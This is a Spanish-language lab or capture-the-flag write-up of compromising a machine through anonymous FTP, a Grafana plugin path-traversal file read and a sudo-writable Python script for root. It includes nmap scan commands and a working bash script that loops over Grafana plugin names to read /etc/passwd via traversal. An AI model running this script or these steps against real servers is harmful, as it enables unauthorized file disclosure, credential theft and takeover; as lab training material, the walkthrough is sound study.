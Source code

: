- Tags: #bashScripting #grafana #LFI 
_____
comenzamos la maquina con el escaneo de nmap para determinar los puertos abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 10.10.10.2 -oG allport
```

despues aplicamos el escaneo para conocer la versión y servicio que corren en los puertos

```shell
nmap -p <puertos> <direccion_ip> -sCV -oN target
```
____
![](attachment/7e909dfb511e29ce8a19d295f106f48e.png)
_____
tenemos tres puertos abiertos, investigaremos primero el puerto 21 puesto que es vulnerable.
___
![](attachment/ad3433ba113a716b1bd0df5243084831.png)
____
tenemos un archivo que parece ser de keepass, lo descargamos e intentamos acceder.
____
![](attachment/d8a75402787b1b56379633604ef32ebd.png)
___
pero nos da un error, y nos sugiere que la versión del archivo KeePass (.kdbx) no es compatible con la versión actual de `keepass2john`

por lo que veamos que tenemos en la web.
_____
![](attachment/1383219f940e11e51e3f18fb96f6e642.png)
___
tenemos un html, veamos que contiene.
____
![](attachment/e006d84742a5017ef814f07bda0325d2.png)
______
nos dice que accedamos a un directorio para poder leer el archivo pass.txt, hasta los momentos no tenemos acceso a ese directorio.

lo siguiente que haremos es revisar el puerto 3000 que tenemos y ver que encontramos.
____
![](attachment/6eb4b8b3cbca94167a3a8469c53f80e6.png)
_____
tenemos una versión, podemos buscar vulnerabilidades y ver que obtenemos.
_____
![](attachment/90b55b54d2b62d3841ffa693e612b810.png)
_____
tenemos una para esa versión lo que nos permite es mediante una vulnerabilidad LFI podremos leer archivos del sistema.

para eso tenemos un exploit en python, pero para practicar un poco el bash scripting diseñe mi propio script para explotar la vulnerabilidad.

```bash
#!/bin/bash

plugins=(
"mysql"
"news"
"nodeGraph"
"opentsdb"
"piechart"
"pluginlist"
"postgres"
"prometheus"
"stackdriver"
"stat"
"state-timeline"
"status-histor"
"table"
"table-old"
"tempo"
"testdata"
"text"
"timeseries"
"welcome"
"zipkin"
)

  

for i in ${plugins[@]}; do

output=$(curl --path-as-is http://10.10.10.2:3000/public/plugins/${i}/../../../../../../../../../../etc/passwd 2>/dev/null)

if [ $? -eq 0 ]; then
	echo -e "\n### Vulnerable: ${i} ###\n"
	echo "$output"
	break
else
	echo "Not Vulnerable: ${i}"
fi
done
```

no es la gran cosa pero cumple su función, aplicando el script podremos ver el /etc/passwd.
_____
![](attachment/d77389a92cace8d4e64515dff0ad12bb.png)
____
acá podemos ver usuarios del sistema, como grafana y freddy.

si podemos leer archivos del sistema tenemos que intentar leer el /tmp/pass.txt.
_______
![](attachment/a760677f0c82115eb4a9866578525e01.png)
____
tenemos lo que parece ser una contraseña por lo que intentaremos acceder por ssh con los dos usuarios que tenemos.
______
![](attachment/2d299ca6d9e6d1e3194c11e295c51acd.png)
___
accedimos con el usuario freddy por lo que aplicando sudo -l nos aparece que podemos ejecutar maintenance.py con root y sin contraseña, vemos que contiene el archivo y que permisos tiene.
_____
![](attachment/9205c3b0a6b2d35572025438d32b8227.png)
____
podemos modificar el archivo y aprovechar para convertirnos en root.
____
![](attachment/5b1e3f7db09b4a6e25d2cb30e027cc67.png)
_____
![](attachment/83033ebf4d220ebeb6031ec6d05692b8.png)
____
de esta forma obtenemos root.
